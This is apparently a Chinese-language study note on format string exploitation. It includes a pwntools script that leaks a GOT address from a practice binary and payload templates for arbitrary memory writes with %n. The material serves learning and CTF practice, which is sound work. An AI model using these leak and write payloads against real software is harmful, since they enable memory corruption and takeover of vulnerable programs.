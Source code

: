 确定格式化字符串为第几个参数

[tag]%p%p%p%p%p%p%p%p  某个%p 会和tag 一样  则采取这种方法获取

**使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处，需要做字节填充**

```
[padding][addr]  
```

```python
# 获取got表scanf 地址
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

**覆盖内存**

```
%n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量
```

```
...[overwrite addr]....%[overwrite offset]$n
overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。
```

步骤：

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

```
假设需要在指定地址写入16
[addr of c]%012d%6$n
address 4 +  %012d 为12个字符  这样 $n写入的字符就是16个  
```



**覆盖任意地址内存**

**覆盖小数字**

因为[addr of c]%012d%6$n  中  [addr of c]  字长为4  所以 想覆盖成小数就需要使用

采用 参数 后置 的方法

aa%8$naa +addr 
